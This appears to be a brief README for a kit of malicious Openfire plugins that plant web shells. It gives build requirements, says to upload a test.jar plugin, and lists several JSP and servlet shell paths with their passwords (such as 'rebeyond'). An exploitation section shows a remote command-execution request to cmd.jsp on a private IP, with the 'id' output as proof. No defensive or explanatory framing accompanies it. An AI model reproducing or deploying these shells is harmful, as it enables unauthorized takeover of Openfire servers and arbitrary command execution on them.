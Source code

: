 # build requirements:
ant1.9
jdk1.6

上传 openfire_shells/src/plugins/test/bin 下的test.jar后


```
usages:

/plugins/test/re2.jsp pass
/plugins/re3.jsp rebeyond
/plugins/god.jsp pass

/plugins/servlet/chropper?
/plugins/servlet/test?
```

漏洞利用：

0x01 执行系统命令

`http://10.20.31.189:9090/plugins/test/cmd.jsp?pwd=023&i=id

```
uid=102(openfire) gid=105(openfire) groups=105(openfire)

```
